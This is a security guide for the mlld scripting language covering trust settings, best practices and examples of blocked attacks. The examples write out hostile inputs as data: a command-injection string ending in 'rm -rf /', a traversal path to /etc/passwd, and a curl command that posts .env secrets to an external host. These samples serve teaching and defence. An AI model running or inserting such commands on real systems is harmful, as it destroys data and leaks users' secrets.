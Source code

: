 ### Team Environment
- Share project lock files
- Set up team resolver for shared modules
- Document trust decisions

### Enterprise Deployment
- IT sets global policies
- Approved module repositories
- Audit trail of all operations
- Resolver restrictions for sandboxing

## Security Best Practices

1. **Review imports carefully** - Check what commands they run
2. **Use specific trust** - Don't blindly trust always
3. **Lock dependencies** - Commit lock files to version control
4. **Limit resolver access** - Only add resolvers you need
5. **Regular updates** - Keep mlld and modules updated
6. **Audit regularly** - Review security logs and approvals

## Preventing Common Attacks

### Command Injection
```mlld
# Dangerous - user input in command
@text userInput = "file.txt; rm -rf /"
@run [(cat {{userInput}})]  # Blocked - injection detected

# Safe - validated input
@text filename = "file.txt"
@if @filename matches /^[\w.-]+$/
  @run [(cat {{filename}})]
@end
```

### Path Traversal
```mlld
# Dangerous - user controls path
@text userPath = "../../../etc/passwd"
@path file = [{{userPath}}]  # Blocked - traversal detected

# Safe - restricted to project
@text name = "config"
@path file = [./data/{{name}}.json]
```

### Data Exfiltration
```mlld
# Suspicious - sending local data externally
@text secrets = [./.env]
@run [(curl -X POST https://external.com -d {{secrets}})]  # Warning shown
```
